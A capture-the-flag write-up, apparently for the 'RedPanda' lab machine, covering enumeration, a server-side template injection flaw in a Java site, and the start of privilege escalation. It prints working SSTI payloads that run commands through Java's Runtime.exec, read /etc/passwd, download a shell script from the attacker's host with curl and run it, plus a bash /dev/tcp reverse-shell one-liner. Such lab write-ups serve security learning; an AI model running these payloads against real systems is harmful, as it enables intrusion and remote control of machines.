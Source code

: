 # @author : M3tr1c_r00t
## RedPanda!
![RedPanda](https://user-images.githubusercontent.com/99975622/205444975-3447a92f-d56f-4465-9544-52a6585c047a.png)


### Enumeration...
nmap
![Screenshot_2022-11-20_15_38_51](https://user-images.githubusercontent.com/99975622/205445009-3f8ddebc-3c24-46b9-9fac-2c42433e57c1.png)
Looking at the nmap scan, only two ports are open...
Not having anything to useful from the nmap scan, lets visit the webpage and have a look at it.
![Screenshot_2022-11-20_15_39_16](https://user-images.githubusercontent.com/99975622/205445026-5d27a9dc-1c1a-43ae-be88-ec79661dc98a.png)
The site asks for some input for a panda name,  but it only seems to give output on some specific ones in its database.
On just sending empty data, we get a response...
![Screenshot_2022-11-20_15_39_25](https://user-images.githubusercontent.com/99975622/205445029-82573e84-7b15-4627-ae13-a4b8bca79b31.png)

After a bit of interaction with the site, i finally got a hold on how to gain access onto the system....
Plus, if you would have checked your wappalyzer extension, you would have noticed the system was running on a java kind of framework...

### SSTI
Finally got a foothold to work upon....
![image](https://user-images.githubusercontent.com/99975622/205456530-7d222419-936b-4b8c-af3b-5051c5ec7a92.png)
On trying to see id there's a SSTI vulnerability, if realized we could get a response while using the "*" special character...

![Screenshot_2022-11-20_15_40_23](https://user-images.githubusercontent.com/99975622/205445039-26d98841-5551-4ea9-9a22-6e75a0db605f.png)
The next step was to get a reverse shell... 
Took me a while to get a working code to help us get the reverse shell, but thanks to pentestmonkey's github repo, we got one...
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("cat /etc/passwd ")}
```
Trying the above code, it works....


Getting reverse shell,
uploading our reverse shell script.
![Screenshot_2022-11-20_15_46_11](https://user-images.githubusercontent.com/99975622/205445066-872fe492-1a70-4280-8216-943e0b4a325f.png)

I had some issues with getting the reverse shell using a one liner, so  we can upload a file and save it in the tmp directory then run bash directly on the file...

##### Code to put in the shell.sh file
```
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'
```
Open a httpserver via python ....
```
python -m http.server 8000
```
Then upload your shell script....

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl YOUR_IP:8000/shell.sh --output /tmp/shell.sh ")}
```
**Getting our reverse shell...**
<br> Make sure to set your listener.... 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("bash /tmp/shell.sh")}
```
and boom! 
![Screenshot_2022-11-20_15_47_26](https://user-images.githubusercontent.com/99975622/205457657-02e0bff9-1d54-490b-8cb6-d52aba8d8aa1.png)

**Getting user flag....**
<br>Navigate to the home directory and get your user flag!
![Screenshot_2022-11-20_15_49_02](https://user-images.githubusercontent.com/99975622/205457694-762cf23e-949e-4f26-9b6f-624854c03d3e.png)

### Priviledge Escalation...
**Running linpeas...**
![Screenshot_2022-11-20_16_09_37](https://user-images.githubusercontent.com/99975622/205457719-dd406a39-31dc-492b-8e22-9f4f7cce0718.png)
Linpeas didn't really give us any useful information so i moved on to pspy64 to check if there are any activities running in the background....



